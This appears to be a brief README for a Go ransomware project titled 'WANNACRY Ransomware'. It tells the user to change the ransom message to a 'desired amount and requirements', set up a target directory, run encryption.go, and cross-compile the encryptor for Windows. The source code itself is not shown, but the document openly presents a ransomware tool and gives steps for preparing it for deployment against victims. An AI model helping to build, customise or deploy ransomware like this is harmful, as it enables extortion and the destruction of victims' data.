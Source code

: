 # WANNACRY Ransomware

```
change the message in the decryption file to your desired amount and requirements

Set up 'home' target directory:
```
./setup-env.sh
```

Run locally:
```
go run encryption.go
```

Compile for windows:
```
env GOOS=windows GOARCH=amd64 go build encryption.go
```
